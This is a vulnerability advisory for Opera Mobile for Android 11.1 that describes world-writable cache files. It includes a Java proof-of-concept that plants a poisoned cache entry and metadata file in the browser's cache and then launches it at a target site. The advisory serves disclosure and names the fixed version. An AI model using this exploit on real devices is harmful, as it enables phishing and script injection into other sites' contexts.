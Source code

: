 ```yaml
---
layout: vuln
credit:
    - roeeh
    - yair
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2011-09-20' 
alephid: ALEPH-2011007
date: '2011-09-20'
title: 'Opera Mobile for Android Cache Poisoning XAS'
severity: high
product:
    - Opera Mobile for Android
vulnerable:
    - Version 11.1
mitigation: 'Install version version 11.1 update 2 or later'
references:
    - src: paper
      url: http://blog.watchfire.com/files/advisory-opera-cp-xas.pdf
 
---
```

The Opera Mobile cache files (metadata and data) have insecure file permissions:
* The cache metadata file (dcache4.url) is globally readable and writable as explained in the paper.
* The cache data itself are globally readable and writable as explained in the paper.

Hence a 3rd party application with no permissions may access Opera Mobile's cache, thus break Android's
sandboxing model:

* It may read the cache. 3rd party parsers are publicly available1.
* It may alter the cache with arbitrary data or code, in order to conduct phishing attacks, or execute JavaScript code in the context of an arbitrary domain.

## Proof-of-Concept ##

See paper for how to generate the injected cache entry.
```java
public class CachePoisoningActivity extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState)
    {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.main);
        dumpToFilesystem("dcache4.url",
                         "/data/data/com.opera.browser/cache/dcache4.url");
                         
        dumpToFilesystem("poisonedfile",
                         "/data/data/com.opera.browser/cache/g_0000/poisonedfile");
                         
        Intent i = new Intent();
        i.setClassName("com.opera.browser", "com.opera.Opera");
        i.setData(Uri.parse("http://target/"));
        startActivity(i);
    }
    private void dumpToFilesystem(String assetName, String dstPath)
    {
        try {
            InputStream input = getAssets().open(assetName);
            FileOutputStream output = new FileOutputStream(dstPath);
            byte[] buffer = new byte[1024];
            int len = -1;
            while (-1 != (len = input.read(buffer)))
            output.write(buffer, 0, len);
            output.close();
            input.close();
        } catch (IOException e) {}
     
        File f = new File(dstPath);
        f.setReadable(true, false);
        f.setWritable(true, false);
    }
}
```
